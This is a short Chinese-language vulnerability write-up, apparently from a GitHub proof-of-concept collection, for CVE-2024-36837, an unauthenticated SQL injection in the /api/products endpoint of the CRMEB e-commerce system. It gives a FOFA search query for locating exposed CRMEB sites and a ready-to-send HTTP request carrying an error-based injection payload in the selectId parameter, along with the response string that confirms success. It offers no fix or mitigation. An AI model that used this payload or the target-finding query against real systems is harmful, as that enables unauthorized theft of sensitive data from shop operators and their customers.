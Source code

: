 # CRMEB 电商系统 /api/products SQL注入漏洞(CVE-2024-36837)

### 1.漏洞描述

CRMEB开源商城系统是一款全开源可商用的系统，前后端分离开发，全部100%开源，在小程序、公众号、H5、APP、PC端皆可使用。

该系统/api/products接口处存在SQL注入漏洞，未授权攻击者可以利用漏洞获取敏感数据。

### 2.fofa语法

```xml
body="/wap/first/zsff/iconfont/iconfont.css" || body="CRMEB"
```

### 3.漏洞复现

```xml
GET /api/products?limit=20&priceOrder&salesOrder&selectId=GTID_SUBSET(CONCAT(0x7e,(SELECT+(ELT(3550=3550,md5(1436528)))),0x7e),3550) HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/11.1.2 Safari/605.1.15
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

响应包中含有“81a9eb3487199f3a2da3e3f6591ffd62”

![image](https://github.com/hardog123/poc-exp/assets/170905460/d3f3996e-f30c-43f7-8a8b-e04b2264f36e)
